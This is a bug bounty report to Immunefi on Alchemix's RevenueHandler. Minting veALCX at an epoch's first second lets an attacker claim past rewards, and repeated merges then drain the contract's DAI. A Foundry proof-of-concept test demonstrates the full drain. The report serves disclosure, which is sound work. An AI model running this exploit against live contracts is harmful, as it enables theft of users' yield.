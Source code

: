 
# The balance of RevenueHandler can be drained

Submitted on Sun May 19 2024 12:09:45 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31453

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Vulnerability Details
Normally, veALCX holders can claim the reward that has been accrued during the current Epoch from the `RevenueHandler` contract in the next Epoch.

The `epochUserVeBalance` variable contains the veALCX user's balance for the previous epoch, while the `epochTotalVeSupply` variable contains the total veALCX supply for the previous epoch.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L322

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L319

However, the `balanceOfTokenAt()` function has a strong less condition:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L1430

```
// If time is before before the first epoch or a tokens first timestamp, return 0
if (_epoch == 0 || _time < pointHistory[userFirstEpoch[_tokenId]].ts) {
    return 0;
}
```

Therefore, if the veALCX has been created in a block where `block.timestamp == New EPOCH beginning`, the `RevenueHandler._claimable()` function will return a positive value (> 0).

This means that an attacker can flash-mint veALCX at that specific block and claim the reward from the `RevenueHandler` for the previous Epoch, effectively stealing the rewards for the previous Epoch.

## Impact Details
Theft on reward from the `RevenueHandler` contract.

        
## Proof of concept
## Proof of Concept

Poc scenario:
1. In the current epoch, two whales (whale_1 and whale_2) mint veALCX.
2. The Revenue Handler accrues the revenue in DAI (10k DAI), and the `checkpoint()` method is called.
3. However, the whales can claim the reward in the next epoch.
4. The bad guy (attacker) crafts an attack transaction in the block where `block.timestamp == New EPOCH beginning`.
5. In this scenario, the attacker can mint veALCX and claim a portion of the DAI reward from the previous epoch due to the condition `block.timestamp == New EPOCH beginning`, effectively stealing the reward from the whales.
6. The attacker can then proceed to drain the entire DAI balance from the Revenue Handler.
7. This is achieved by creating a new veALCX with a small amount of BAL and then calling `veALCX.merge()`. This action transfers the balance from the previous veALCX to the new one, providing another opportunity to claim DAI from the Revenue Handler.
8. Repeat step 7 until the Revenue Handler's balance reaches 0.

To run the PoC, place the code below in the `PoC.t.sol` file and execute the command: `forge test --mp src/test/PoC.t.sol --fork-url 'URL'`.


```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Poc is BaseTest {
    uint256 EPOCH = 2 weeks;

    function setUp() public {
        setupContracts(block.timestamp);

        hevm.prank(admin);
        revenueHandler.transferOwnership(address(this));

        revenueHandler.addRevenueToken(dai);
    }

    // Run as: forge test --mp src/test/Poc.t.sol --fork-url 'URL'
    function test_poc() public {
        address whale1 = address(1);
        address whale2 = address(2);

        address bad = address(3);

        // Whales stake and get veAlcx
        uint256 tokenId_w1 = createVeAlcx(whale1, 1000e18, MAXTIME, false);
        uint256 tokenId_w2 = createVeAlcx(whale2, 1000e18, MAXTIME, false);

        // Accrue revenue in DAI
        deal(dai, address(this), 10_000 ether);
        IERC20(dai).transfer(address(revenueHandler), 10_000 ether);

        // Checkpoint in current epoch
        revenueHandler.checkpoint();

        // Whales should be able to claim the reward in the next Epoch
        assertEq(
            revenueHandler.claimable(tokenId_w1, dai), 0
        );

        // Move to the beginning of the next Epoch
        uint256 BEGINNING_NEW_EPOCH = ((block.timestamp) / EPOCH) * EPOCH + EPOCH;
        hevm.warp(BEGINNING_NEW_EPOCH);

        // The bad guy immediately mints veAlcx and calls checkpoint() in the new Epoch
        uint256 tokenId_bad = createVeAlcx(bad, 100e18, MAXTIME, false);
        revenueHandler.checkpoint();

        // Because the block.timestamp matches the beginning of the Epoch
        // it returns positive value
        // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L1430
        assertGt(
            veALCX.balanceOfTokenAt(tokenId_bad, BEGINNING_NEW_EPOCH), 0
        );

        assertGt(
            revenueHandler.claimable(tokenId_bad, dai), 0
        );

        // The bad guy claims the reward in DAI
        // stealing the reward from whales
        hevm.startPrank(bad);
        revenueHandler.claim(
            tokenId_bad,
            dai,
            address(0),
            revenueHandler.claimable(tokenId_bad, dai),
            bad
        );
        hevm.stopPrank();

        assertGt(
            IERC20(dai).balanceOf(bad), 0
        );

        // The bad guys completely drains DAI reward from revenueHandler!!!
        assertGt(
            IERC20(dai).balanceOf(address(revenueHandler)), 0
        );

        uint256 last_id = tokenId_bad;
        while(true) {
            uint256 current_id = createVeAlcx(bad, 10, MAXTIME, false);

            hevm.startPrank(bad);

            veALCX.merge(last_id, current_id); // Merge old veALCX with new!!

            uint256 claimable = revenueHandler.claimable(current_id, dai);

            assertGt(
                claimable, 0
            );

            uint256 skip = 0;
            if (claimable > IERC20(dai).balanceOf(address(revenueHandler))) {
                claimable = IERC20(dai).balanceOf(address(revenueHandler));
                skip = 1;
            }

            revenueHandler.claim(
                current_id,
                dai,
                address(0),
                claimable,
                bad
            );

            last_id = current_id;

            if (skip > 0)
                break;

            hevm.stopPrank();
        }

        assertEq(
            IERC20(dai).balanceOf(address(revenueHandler)), 0
        );
    }
}
```